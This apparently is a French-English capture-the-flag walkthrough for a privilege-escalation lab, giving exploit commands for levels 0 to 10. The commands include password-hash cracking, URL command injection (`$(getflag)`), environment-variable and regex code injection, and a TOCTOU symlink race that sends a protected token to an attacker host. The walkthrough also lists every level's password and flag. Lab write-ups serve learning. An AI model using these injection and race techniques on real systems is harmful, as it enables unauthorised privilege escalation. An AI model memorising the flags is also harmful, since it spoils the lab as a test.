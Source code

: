 
# level 0
level00:level00

`find / -group "flag00" 2>/dev/null`
```
/usr/sbin/john
/rofs/usr/sbin/john
```
`cat /usr/sbin/john`
```
cdiiddwpgswtgt
```
`su flag00:cdiiddwpgswtgt -> fail`

`dcode.fr -> rot15 -> 	cdiiddwpgswtgt -> NOTTOOHARDHERE`

`su flag00:nottoohardhere`

`getflag`
```
x24ti5gi3x0ol2eh4esiuxias
```
# level 1
su level01:x24ti5gi3x0ol2eh4esiuxias

`cat /etc/passwd`

flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

su flag01:42hDRfypTqqnw -> fail

john the ripper  [DES 128/128 SSE2-16]) -> ```42hDRfypTqqnw :  abcdefg```

su flag01:abcdef

getflag
```
f2av5il02puano7naaf6adaaf
```

# level 02
su level02:f2av5il02puano7naaf6adaaf

level02.pcap open it with wireshark follow tcp stream -> read pwd flag

Password: ft_wandr...NDRel.L0L -> ft_waNDReL0L

getflag-> kooda2puivaav1idi4f57q8iq

# level 03
su level03:kooda2puivaav1idi4f57q8iq
./level03 -> exploit me
ls -l ./level03 a le groupe flag03
en desassemblant le binaire, la string est ecrite comme ceci "/usr/bin/env echo Exploit me"

en utilisant un autre echo on peut appeler getflag et avoir le flag `qi0maab88jeaj46qoumi7maus`


# level 04
fichier perl qui resume le contenu d'un serveur, imprime le contenu de la variable x
curl "http://127.0.0.1:4747/?x=\$(getflag)"
```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

# level 5

you have new mail in /var/mail/level05

find / -group flag05 2>/dev/null

cat /usr/sbin/openarenaserver 

echo 'getflag > /tmp/coucou' > /opt/openarenaserver/coucou


watch cat /tmp/coucou -> viuaaale9huek52boumoomioc


# level 6
su level06:viuaaale9huek52boumoomioc

```
echo '[x ${`$(getflag > /tmp/salut)`}]' > /tmp/coucou
```

./level06 /tmp/coucou

wiok45aaoguiboiki2tuin6ub

# level 7
su level07:wiok45aaoguiboiki2tuin6ub

en desassemblant le binaire on voit qu'il y a un exec et qu'il y a  une string `/bin/echo %s` on voit aussi qu'il appelle une variable d'env avec la fonction getenv

l'env qui est visible grace a la fonction strings c'est LOGNAME
export LOGNAME=\`getflag\`
./level07

fiumuikeil55xe9cu4dood66h

# level 8

su level08:fiumuikeil55xe9cu4dood66h

get token by `ln -s $(pwd)/token /tmp/coucou`
puis ./level08 /tmp/coucou
le nom token est harcode et si le fichier a un autre nom on peut le lire. 
on le voit en regardant en desassenblant
le programme compare le nom du fichier donne en argument et la string "token"

on obtient le token `quif5eloekouj29ke0vouxean`

`flag08:quif5eloekouj29ke0vouxean`

getflag `25749xKZ8L7DkSCwJkT9dyv6f`


# level 9

en utilisant le programme level9 on voit qu'on a faire avec un programme qui ajoute une rotation qui s'incremente abc devient abe et aaa devient abc


while read line; do for (( i=0 ; i<${#line} ; i++ )) ; do echo ${line:$i:1} - $i | bc  ; done ; done < token

xxd -g 1 token > 66 34 6b 6d 6d 36 70 7c 3d 82 7f 70 82 6e 83 82 44 42 83 44 75 7b 7f 8c 89



coucou="66 34 6b 6d 6d 36 70 7c 3d 82 7f 70 82 6e 83 82 44 42 83 44 75 7b 7f 8c 89" ; j=0 ; for i in $coucou ; do  e=$(echo "obase=10; ibase=16; ${i^^}" | bc) ; echo " $e - $j" | bc ; j=$(expr $j + 1)   ; done

donne -> 102 51 105 106 105 49 106 117 53 121 117 101 118 97 117 115 52 49 113 49 97 102 105 117 113


chr() {
  [ "$1" -lt 256 ] || return 1
  printf "\\$(printf '%03o' "$1")"
}

coucou="102 51 105 106 105 49 106 117 53 121 117 101 118 97 117 115 52 49 113 49 97 102 105 117 113" ; for i in $coucou ; do chr $i ; done; echo ""


> f3iji1ju5yuevaus41q1afiuq

su flag09:f3iji1ju5yuevaus41q1afiuq

getflag 
```
s5cAJpM8ev6XHw998pRWG728z
```

# level 10


le level contient un programme qui envoit un fichier a une addresse sur le port 6969
le programme dit qu'on a pas acces au fichier token

un fichier qui contient "aaaaaaa" est envoye 
```
.*( )*.
aaaaaaaaa
```

le programme utilise access to check si l'utilisateur a acces au fichier qu'il envoie
le programme est donc vulnerable au TOCTOU https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

for (( ; ; )) ; do echo coucou > /tmp/coucou; ln -fs /tmp/coucou /tmp/dull; ln -fs $(pwd)/token /tmp/dull; done &

puis lancer 2-3 fois 
```
level10 /tmp/dull IP_PC
```
on obtient woupa2yuojeeaaed06riuj63c
```
getflag -> feulo4b72j7edeahuete3no7c
```






